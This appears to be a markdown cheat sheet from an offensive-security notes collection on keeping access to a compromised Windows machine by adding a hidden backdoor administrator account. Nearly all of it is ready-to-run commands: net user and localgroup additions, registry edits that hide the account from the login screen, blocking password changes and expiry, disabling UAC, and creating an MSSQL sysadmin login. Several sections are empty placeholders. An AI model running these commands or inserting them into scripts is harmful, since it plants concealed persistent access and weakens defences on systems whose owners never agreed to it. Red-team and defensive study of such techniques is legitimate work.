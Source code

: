 # Manual

Normally you wouldn't create an account since it is intrusive but hackers had to avoid writing malware on disk as much as possible. Choose your decisions wisely.

## 01 - Command Prompt

```
C:\> net user sysadmin s3cur3d+1T /add /y

C:\> net localgroup Administrators sysadmin /add /y
```

Makes the user account invisible from the Windows Login screen

`C:\> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v sysadmin /t REG_DWORD /d 0 /f`

Sometimes it's a bit annoying when losing access that somebody changed the password whatever if it's on purpose or accidental. This `/passwordchg:<YES | NO>` option will prevent it from happening.

`C:\> net user sysadmin /passwordchg:no`

Never expire the password (this command is intrusive so be careful)

`C:\> net accounts /maxpwage:unlimited`

Persistence method to add user account

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v MS_BACKUP /t REG_DWORD /d 0 /f`

Disabling UAC that allows the hacker to take full control

`C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f`

Enabling UAC to make the admin restrictive

`C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f`

## 02 - Powershell

```powershell
PS C:\> $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
New-LocalUser -Name sysadmin -Password $password
Add-LocalGroupMember -Groups Administrators -Member "sysadmin"
```

## 03 - MSSQL

TODO: Fill this info

### 3.1 - SQSH

```
$ sqsh -S <IP> -U <username> -P "<password>"
 
1> CREATE LOGIN <username> WITH PASSWORD = '<password>';
2> sp_addsrvrolemember '<username>', 'sysadmin';
3> go
```

### 3.2 - SQLCMD

```
C:\> sqlcmd [-S <IP>] -E -Q
```

### 3.3 - Impacket

```

```

### 3.4 - NetExec

`$ netexec mssql`